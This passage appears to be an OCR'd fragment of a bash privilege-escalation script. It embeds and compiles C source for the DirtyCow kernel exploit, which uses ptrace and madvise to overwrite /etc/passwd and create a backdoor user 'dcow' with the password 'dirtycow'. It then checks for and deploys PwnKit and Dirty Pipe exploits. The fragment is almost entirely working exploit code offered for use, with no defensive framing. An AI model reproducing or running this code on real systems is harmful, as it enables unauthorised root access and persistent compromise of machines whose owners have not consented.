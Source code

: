 ```bash
    int u, i, o, c = 0;
    int l=strlen(complete_passwd_line);
    for(i = 0; i < 10000/l; i++) {
      for(o = 0; o < l; o++) {
        for(u = 0; u < 10000; u++) {
          c += ptrace(PTRACE_POKETEXT,
                      pid,
                      map + o,
                      *((long*)(complete_passwd_line + o)));
        }
      }
    }
    printf("ptrace %d\n\n", c);
  }
  else {
    pthread_create(&pth,
                   NULL,
                   madviseThread,
                   NULL);
    ptrace(PTRACE_TRACEME);
    kill(getpid(), SIGSTOP);
    pthread_join(pth,NULL);
  }

  printf("Done! Check %s to see if the new user was created.\n", filename);
  printf("You can log in with the username '%s' and the password '%s'.\n\n",
    user.username, plaintext_pw);
    printf("\nDON'T FORGET TO RESTORE! $ mv %s %s\n",
    backup_filename, filename);
  return 0;
}
EOF
            
        gcc -pthread dirtycow.c -o dirtycow -lcrypt
        chmod +x dirtycow
        
        echo "[+] DirtyCow exploit compiled. Execute './dirtycow' to attempt privilege escalation."
        echo "    After running, try 'su dcow' with password 'dirtycow'"
        echo "    IMPORTANT: Restore the original passwd file after use with:"
        echo "    mv /tmp/passwd.bak /etc/passwd"
        
        return 0
    else
        echo "[-] Kernel $KERNEL_VERSION is not vulnerable to DirtyCow."
    fi
    
    return 1
}

# Check and deploy available exploits
EXPLOITS_FOUND=0

# PwnKit check
if check_pwnkit; then
    EXPLOITS_FOUND=$((EXPLOITS_FOUND + 1))
fi

echo ""

# Dirty Pipe check
if check_dirty_pipe; then
    EXPLOITS_FOUND=$((EXPLOITS_FOUND + 1))
fi
```